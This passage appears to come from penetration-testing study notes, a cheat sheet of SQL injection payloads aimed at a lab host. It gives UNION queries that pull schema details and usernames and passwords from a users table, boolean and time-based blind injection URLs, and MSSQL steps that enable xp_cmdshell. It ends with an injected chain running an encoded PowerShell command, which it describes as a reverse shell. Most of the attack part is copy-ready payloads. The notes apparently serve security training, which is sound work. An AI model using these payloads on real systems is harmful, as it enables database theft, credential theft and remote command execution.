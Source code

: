 Then. with the number of columns you can get some information, in this case we can get database info, user info and version (in this case, we have **5** columns):
```
' UNION SELECT null, database(), user(), @@version, null -- //
```

NOTE: Column 1 is typically reserved for the ID field consisting of an integer data type, meaning it cannot return the string value we are requesting through the SELECT database() statement

Get the columns table from the information_schema database belonging to the current database:
```
' union select null, table_name, column_name, table_schema, null from
information_schema.columns where table_schema=database() -- //
```

With that information we can get more specific information:
```
' UNION SELECT null, username, password, description, null FROM users -- //
```

#### Blind SQL Injections

Boolean-based SQLi:
```
http://192.168.50.16/blindsqli.php?user=user' AND 1=1 -- //
```

The same result can be achieved using time-based:
```
http://192.168.50.16/blindsqli.php?user=user' AND IF (1=1, sleep(3),'false') -- //
```

#### Manual Code Execution

In Microsoft SQL Server:
```
EXECUTE sp_configure 'show advanced options', 1;
```

```
RECONFIGURE;
```

```
EXECUTE sp_configure 'xp_cmdshell', 1;
```

```
RECONFIGURE;
```

`whoami` can be your payload, like a reverse shell:
```
EXECUTE xp_cmdshell 'whoami';
```

NOTE: Example using these commands:
```
' EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1;RECONFIGURE; EXECUTE xp_cmdshell 'powershell -e ...';-- //
```
